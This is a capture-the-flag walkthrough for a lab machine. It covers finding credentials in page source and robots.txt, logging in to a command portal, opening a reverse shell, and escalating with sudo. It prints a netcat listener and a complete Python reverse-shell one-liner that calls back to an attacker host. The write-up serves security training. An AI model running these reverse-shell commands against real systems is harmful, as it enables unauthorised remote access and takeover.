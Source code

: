
---

# CTF Walkthrough Documentation

## 1. Enumeration

- **Inspect source code** of the main page → found a hardcoded username:
    
    ```
    R1ckRul3s
    ```
    
- **Check `robots.txt`** → discovered a password:
    
    ```
    Wubbalubbadubdub
    ```
    
- **Identify login portal** at:
    
    ```
    http://0.0.0.0/login.php
    ```
    

## 2. Initial Access

- Login with:
    
    - **Username:** `R1ckRul3s`
        
    - **Password:** `Wubbalubbadubdub`
        
- Upon successful login, a command prompt becomes available.
    

## 3. Reverse Shell

- Start a listener on the attacker machine:
    
    ```bash
    nc -lvnp 9001
    ```
    
- Execute reverse shell from target:
    
    ```bash
    export RHOST="0.0.0.0";export RPORT=9001;python3 -c 'import sys,socket,os,pty;
    s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
    ```
    

## 4. Privilege Escalation

- Stabilize shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    
- Try privilege escalation:
    
    ```bash
    sudo su
    ```
    

## 5. Flag Discovery

- Check current working directory, `/home`, and `/root` for flag files.
    
- Use `strings` or `cat` to extract flag values
---
